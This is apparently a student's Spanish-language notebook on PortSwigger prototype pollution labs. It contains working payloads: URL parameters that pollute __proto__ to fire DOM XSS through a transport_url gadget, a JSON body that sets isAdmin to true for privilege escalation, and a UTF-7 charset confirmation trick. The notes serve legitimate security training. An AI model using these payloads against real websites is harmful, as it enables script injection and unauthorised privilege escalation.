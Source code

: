 ### LAB: DOM XSS Prototype Pollution Vía Browser API's

* En este caso los desarrolladores se dieron cuenta del gadget `transport_url` y quisieron mandarlo a dormir simplemente con el {configurable:false, writable:false} xd

![[Pasted image 20250219192215.png]]

* A prueba manual llegue a la primera opción, pero con DOM INVADER se creó la carga util por completo: 

```js
//ESTE LO CREE YO MANUALMENTE CON BASE AL CODIGO DEL LAB y el research de portswigger 
/?__proto__[config.transport_url]=alert(config.transport_url);
//pero para que realmente se pueda ejecutar el alert toca hacer la codificación a URL asi tal cual como nos lo proveé el DOM Invader!! ->

//DOM Invader 
/?__proto__%5Bconfig.transport_url%5D=alert%28config.transport_url%29&__proto__[value]=data%3A%2Calert%281%29

/?__proto__[config.transport_url]=alert(config.transport_url)&__proto__[value]=data:,alert(1)
```

### LAB: Prototype pollution Privilege Escalation 

```js
//En el endpoint POST /my-account/change-address, se procesa la info en un JSON
//y su response en JSON too, contiene algo chido. 
{"isAdmin":false}

//Segun lo que dice gareth heyes
"__proto__": { "foo":"bar" } //se ve en la response? VULNERABLE

{
"INFO-DEL-LAB":"COLOMBIA HP",
"__proto__":{
	"isAdmin":true
}
//ESO FUEQUE. 
```


### LAB: Prototype Pollution without polluted property reflection

Este lab no es de explotación sino de confirmación en sí, por lo cual debo encontrar el indicio que me confirme el prototype pollution.

¿Que tengo que hacer sino es una explotación?

Muy simple, verificar si contiene en su backend el UTF-7 Charset y si en la respuesta no se ve reflejado, significa que no, por lo cual podría inyectar un `__proto__` con el **content-type** con el charset en utf-7 y luego volver a enviar la petición a ver si da.

- UTF-7 → foo: `+AGYAbwBv-`

